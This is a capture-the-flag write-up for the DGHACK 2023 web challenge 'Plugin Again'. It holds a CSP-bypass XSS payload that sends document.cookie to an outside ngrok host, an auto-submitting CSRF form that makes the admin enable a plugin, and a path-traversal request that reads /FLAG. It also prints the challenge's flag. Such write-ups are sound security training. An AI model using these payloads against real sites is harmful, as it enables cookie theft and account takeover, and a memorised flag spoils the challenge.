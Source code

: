```yaml
---
title: CTFs | DGHACK_2023 | Web | Plugin Again
author: BatBato
date: 2023-11-30
categories: [CTFs, DGHACK_2023, Web]
tags: [Web,LFI,XSS]
permalink: /CTFs/DGHACK_2023/Web/2023-11-30-Plugin_Again.md
---
```


# Plugin Again

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/53f5fd39-d0f6-4e68-8a16-8b8df5abd9e4)

As written in the description of the challenge, we need to read the content of the `/FLAG` file. We only have access to a URL so we can navigate to the website and we get this:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/4ba20793-474c-43ec-a2ab-847529fcc4d4)

First thing I notice was that there is a menu to see which user is connected:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/539740e1-8e67-41c9-aa72-8ce96d8dc979)

Now that we know that `Johnny` and `admin` are connected, the first thing that came to my mind was `XSS`. If we can run XSS on the website, we can recover both session cookies and so, get authenticated. But if we try some basic `XSS`, we don't get any result. This is due to the [CSP](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass) located in the `meta` tag of the `HTML`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/066a3fcf-2503-4c21-955a-9c9ac5bcf4a8)

This header tells us that we can't run `JavaScript` code except from the domain `cdn.jsdelivr.net`. This may not allow us to get our `XSS`, but after a bit of digging, I found [this](https://www.jsdelivr.com/package/npm/csp-bypass). Here we see that we can run  `JavaScript` code like the well-known `alert(1)`.

> It is recommended to run `alert(document.domain)` or `alert(window.origin)` to see if we are executing the script from the current webpage or from a sandbox. More explanation in the `LiveOverflow` video [here](https://www.youtube.com/watch?v=KHwVjzWei1c).
{: .prompt-tip}

So now we can try a basic `XSS` like this one:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/5c9e0437-ca46-4f94-8ad2-adaa59dbb0bf)


And we get the following result:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f4cbbc45-131b-437f-800c-f87f2390073e)

As we can see, the domain is the same as our `URL`. We can now perform an `XSS` to recover a cookie. I used this really basic payload :
```html
<script src="https://cdn.jsdelivr.net/npm/csp-bypass@1.0.2/dist/sval-classic.min.js"></script>
<script src="https://unpkg.com/csp-bypass@1.0.2-0/dist/classic.js"></script>
<br csp="fetch('https://4542-195-221-38-254.ngrok-free.app?COOKIE='+document.cookie)">
```

> Don't forget to launch a python (`python3 -m http.server`) server with an `ngrok` (`ngrok http 8000`) to be able to recover the cookie.
{: .prompt-warning}

After a few seconds of waiting, we get this result:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/ff292c23-1608-4e4c-a040-f1d3f5d083b0)

We can create a cookie named `session` and set the value to the one we just got. Now we are connected as `Johnny`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/7fcb6ba0-1c61-4cd9-9761-032d6ef53497)

After a while, I couldn't get any other cookie than the one from `Johnny`... The `admin` doesn't seem to look often the blog posts... After reading the posts on the blog, we can see a message from the `admin` talking about sending messages to other users. And now if we look at the connected users, we get a new option, we can contact them:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/52142b84-d646-4e1b-b571-7d87b1769ac3)

But when I send the cookie grabber payload (the one from earlier), I can't interact with the `admin` options because I am not on the local machine:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/dc4d1a09-ea02-4513-9e71-09cb8faee436)

So we need to find a way to ask the admin to do the work for us... If we look at the post, we find this interesting one:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/d2698fc1-adb6-41bb-a05f-b5ab3571a84f)

We then go on GitHub and search for this `JhonnyTemplater` and we find [this code](https://github.com/jhonnyCtfSysdream/JhonnyTemplater/tree/main). We notice that there is a possible `LFI` here:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/6ac5fdb6-707e-4940-84fa-0fb1ba6a0ef6)

We now reaaaaalllly want to enable this plugin. As `Johnny`, we can go to the plugin menu and see that the `activate` button redirects to `/activate-plugin/1`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/830f7de5-ba78-4d43-99ca-8b30fd5e3863)

I tried to redirect the `admin` using `document.location` or `window.open` but without any result... I then found online some people that send a form to another user and use `JavaScript` to automatically complete it. So I used the following payload:
```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="/activate-plugin/1" method="GET">
  <input type="submit" value="Submit request" />
</form>
<script src="https://cdn.jsdelivr.net/npm/csp-bypass@1.0.2/dist/sval-classic.min.js"></script>
<script src="https://unpkg.com/csp-bypass@1.0.2-0/dist/classic.js"></script>
<br csp="document.getElementById('csrf-form').submit()">
```

This will basically just send a form with just a submit button to the `admin` user and when he opens the message it will automatically redirect him to `/activate/1` which will activate the plugin.

> I first used `action=http://website-ybnx6z.inst.malicecyber.com/activate-plugin/1`. This worked when I sent the message to myself (`Johnny`) but not to the `admin`.
{: .prompt-warning}

We can now see that we have activated the plugin because we can deactivate it now:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/776c10a8-9a29-4494-bb02-17ba35488427)

Now, we can create a `post` with a `template`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f5af0a91-8745-4975-96c7-f8895b7a692f)

If we intercept the request with `BurpSuite` when we click on `Use template`, we can see this:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/b94cc400-98df-4a27-95ad-41a64a29d8a2)


We can now replace the `theme=funny` by `theme=../../../../../../../FLAG`  and now...

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/e67bc7bc-0301-4f90-addf-920e1b7509fc)

So the flag is `DGHACK{WellD0ne!Bl0ggingIsS0metimeRisky}`. 

> We could have tried to get RCE. Indeed, the server is using `Flask` and the `Werkzeug` (more info [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)). We could have recovered the information in the different files on the server to find the `PIN` and get `RCE` in the `Werkzeug` console.
{: .prompt-info}
